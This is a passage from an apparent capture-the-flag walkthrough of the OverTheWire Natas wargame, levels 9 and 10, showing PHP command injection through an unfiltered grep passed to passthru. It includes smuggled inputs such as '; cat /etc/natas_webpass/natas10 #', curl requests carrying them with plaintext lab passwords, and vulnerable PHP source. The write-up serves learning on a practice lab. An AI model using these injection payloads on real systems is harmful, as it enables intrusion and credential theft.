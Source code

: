 ```php
</pre>
```

Notify that the php script does not filter special characters (e.g `;`)

I'm solving this level using browser input form  

* Try inputting `; ls . #` &rarr; the passthru command will be `grep -i ; ls . # dictionary.txt` &rarr; no hint
* Try inputting `; ls /etc #` &rarr; the passthru command will be `grep -i ; ls /etc # dictionary.txt` &rarr; we've found the file `natas_webpass` in the list
* Try inputting `; ls /etc/natas_webpass #` &rarr; the passthru command will be `grep -i ; ls /etc/natas_webpass # dictionary.txt`

![image](https://user-images.githubusercontent.com/31420144/105506911-28726900-5cfd-11eb-8482-0d5b6de9142b.png)


* Finally inputting `; cat /etc/natas_webpass/natas10 #` &rarr; we've got the password

Excuse me, I copied the following url from a GET request in Chrome Developer Tools _http://natas9.natas.labs.overthewire.org/?needle=%3B+cat+%2Fetc%2Fnatas\_webpass%2Fnatas10+%23&submit=Search_   

```bash
curl --silent --user natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl --data "needle=%3B+cat+%2Fetc%2Fnatas_webpass%2Fnatas10+%23&submit=Submit+Query" http://natas9.natas.labs.overthewire.org/
```

or  

```bash
curl --silent --user natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/?needle=%3B+cat+%2Fetc%2Fnatas_webpass%2Fnatas10+%23&submit=Search
```

## Level 10

```bash
curl --silent --user natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/
```

We should view sourcecode  

```php
For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>
```
